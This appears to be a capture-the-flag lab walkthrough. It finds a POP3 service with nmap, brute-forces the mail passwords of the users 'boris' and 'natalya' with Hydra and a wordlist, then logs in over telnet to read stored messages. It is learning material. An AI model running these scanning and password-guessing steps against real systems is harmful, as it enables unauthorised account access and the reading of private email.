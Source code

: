Hint: pop3

1. Let's check the previously unknown ports for more information. We can see that port 55007 is for pop3

```bash
nmap -p 55006,55007 -sV <IP>
```

- `-p `: Allow us to scan selected ports
- `-sV`: Probes ports to determine service/version info

![SCREEN04](https://github.com/user-attachments/assets/4851ce8c-adf2-4445-8b55-3c0b324be1df)

2. Unfortunately previous credentials do not work

```bash
telnet <IP> 55007
USER boris
PASS I**r
```

![SCREEN05](https://github.com/user-attachments/assets/dfc1e445-e954-4ee6-9d82-5dfbdd465575)

3. So we go with the hydra:

```bash
hydra -l boris -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```

- `-l`: Single username specification
- `-P`: Password list file path
- `-s`: Port specification

![SCREEN06](https://github.com/user-attachments/assets/f41d0571-bd66-4f8e-af6a-c1b418345abf)

### What can you find on this service?

The answer is: `emails`

1. We can login with newly acquired password, and look through the messages

```bash
telnet <IP> 55007
USER boris
PASS s**!
LIST
RETR 1
RETR 2
RETR 3
QUIT
```

2. From message number 2 we can see that Boris was messaging with Natalya - so this will be our next target

```bash
hydra -l natalya -P /root/Tools/wordlists/fasttrack.txt <IP> pop3 -s 55007
```
